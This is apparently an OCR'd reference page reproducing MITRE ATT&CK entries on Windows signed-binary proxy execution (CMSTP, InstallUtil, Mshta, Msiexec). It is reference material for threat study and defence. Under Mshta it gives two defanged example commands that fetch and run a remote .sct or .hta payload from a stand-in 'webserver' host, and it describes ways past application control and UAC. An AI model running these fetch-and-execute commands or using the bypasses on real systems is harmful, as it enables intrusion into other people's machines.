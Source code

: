 ### T1218.003 - System Binary Proxy Execution: CMSTP

Description:

Adversaries may abuse CMSTP to proxy execution of malicious code. The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections. Adversaries may supply CMSTP.exe with INF files infected with malicious commands. Similar to Regsvr32 / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs and/or COM scriptlets (SCT) from remote servers. This execution may also bypass AppLocker and other application control defenses since CMSTP.exe is a legitimate binary that may be signed by Microsoft. CMSTP.exe can also be abused to Bypass User Account Control and execute arbitrary commands from a malicious INF through an auto-elevated COM interface.

### T1218.004 - System Binary Proxy Execution: InstallUtil

Description:

Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility. InstallUtil is a command-line utility that allows for installation and uninstallation of resources by executing specific installer components specified in .NET binaries. The InstallUtil binary may also be digitally signed by Microsoft and located in the .NET directories on a Windows system: C:\Windows\Microsoft.NET\Framework\v\InstallUtil.exe and C:\Windows\Microsoft.NET\Framework64\v\InstallUtil.exe. InstallUtil may also be used to bypass application control through use of attributes within the binary that execute the class decorated with the attribute [System.ComponentModel.RunInstaller(true)].

### T1218.005 - System Binary Proxy Execution: Mshta

Description:

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. Files may be executed by mshta.exe through an inline script: mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")")) They may also be executed directly from URLs: mshta http[:]//webserver/payload[.]hta Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings.

### T1218.007 - System Binary Proxy Execution: Msiexec

Description:

Adversaries may abuse msiexec.exe to proxy execution of malicious payloads. Msiexec.exe is the command-line utility for the Windows Installer and is thus commonly associated with executing installation packages (.msi). The Msiexec.exe binary may also be digitally signed by Microsoft. Adversaries may abuse msiexec.exe to launch local or network accessible MSI files. Msiexec.exe can also execute DLLs. Since it may be signed and native on Windows systems, msiexec.exe can be used to bypass application control solutions that do not account for its potential abuse. Msiexec.exe execution may also be elevated to SYSTEM privileges if the AlwaysInstallElevated policy is enabled.

### T1218.008 - System Binary Proxy Execution: Odbcconf
